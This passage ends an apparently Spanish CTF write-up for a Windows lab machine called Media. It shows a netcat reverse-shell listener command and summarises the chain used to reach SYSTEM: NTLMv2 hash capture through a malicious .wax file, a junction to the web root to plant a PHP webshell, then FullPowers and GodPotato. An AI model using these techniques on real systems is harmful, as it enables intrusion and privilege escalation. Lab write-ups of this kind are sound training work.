rlwrap -cAr nc -lnvp 4450
```

<p align="center">

</p>

Obtenemos la flag de root.txt

<p align="center">

</p>

## Conclusión

La máquina **Media** (Windows) es un entorno enfocado en la captura de credenciales SMB y el abuso de enlaces simbólicos para la ejecución remota de comandos y la posterior escalada a SYSTEM. El vector inicial aprovecha un formulario web que procesa listas de reproducción mediante Windows Media Player; al subir un archivo `.wax` malicioso que apunta a un recurso remoto, se fuerza una autenticación de red para capturar y descifrar el hash NTLMv2 del usuario `enox`. Una vez dentro mediante SSH, la enumeración revela un script de PowerShell (`review.ps1`) que procesa automáticamente archivos en una carpeta con permisos de escritura. Creando un enlace de unión (`mklink /J`) hacia la raíz web (`C:\xampp\htdocs`), se sube una webshell PHP que otorga ejecución remota de comandos bajo la cuenta `nt authority\local service`. Finalmente, tras restaurar las asignaciones predeterminadas de la cuenta mediante `FullPowers.exe` para recuperar el privilegio `SeImpersonatePrivilege`, se utiliza la herramienta `GodPotato` para suplantar tokens de seguridad DCOM/RPC y elevar accesos directamente al nivel máximo de **SYSTEM**.